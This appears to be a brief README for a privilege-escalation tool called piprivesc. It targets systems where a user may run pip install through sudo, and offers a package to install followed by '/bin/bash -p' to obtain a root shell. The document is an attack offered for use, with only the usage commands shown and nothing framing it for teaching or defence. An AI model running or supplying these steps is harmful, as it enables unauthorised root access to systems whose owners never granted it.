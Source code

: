 Have sudo /usr/bin/pip install but dont know how to exploit?

Just pip install this!


Usage:
pip install /piprivesc.tar.gz
/bin/bash -p
